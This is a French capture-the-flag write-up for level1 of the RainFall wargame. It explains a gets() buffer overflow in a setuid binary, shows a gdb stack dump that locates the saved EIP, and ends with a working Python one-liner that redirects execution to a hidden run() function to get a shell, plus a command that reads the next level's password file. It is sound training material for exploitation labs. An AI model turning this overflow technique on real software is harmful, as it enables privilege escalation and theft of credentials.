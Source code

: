## Level1

On a un exécutable `level1` avec les droits du `level2`.

En désassemblant le code du main on remarque une fonction `run()` qui n'est jamais call. 

Cette fonction affiche "Good... Wait what?" sur `stdout`, puis fait un `system("/bin/sh/")`.

Un buffer de 80 est alloué dans `main` et  un `gets()` sur `stdin` écrit dedans, sans vérification de taille.


```
Buffer: 
0xbffff670:	0x08040063	0x0804978c	0x00000001	0x08048321 \
0xbffff680:	0xb7fd13e4	0x00000016	0x0804978c	0x080484c1  |
0xbffff690:	0xffffffff	0xb7e5edc6	0xb7fd0ff4	0xb7e5ee55  | 80 octets
0xbffff6a0:	0xb7fed280	0x00000000	0x080484a9	0xb7fd0ff4  |
0xbffff6b0:	0x080484a0	0x00000000	0x00000000	0xb7e454d3 /

(gdb) info symbol 0xb7e454d3 
__libc_start_main + 243 in section .text of /lib/i386-linux-gnu/libc.so.6

```

La dernière adresse que l'on voit est bien la sauvegarde de **EIP**. Il est maintenant simple de réécrire dessus pour rediriger le programme vers la fonction `run()`, qui va ouvrir un shell avec les droits du `level2`:

`level1@RainFall:~$ cat <(python -c 'print("A"*76 + "\x72\x84\x04\x08")') - | ./level1`

`$ cat /home/user/level2/.pass`



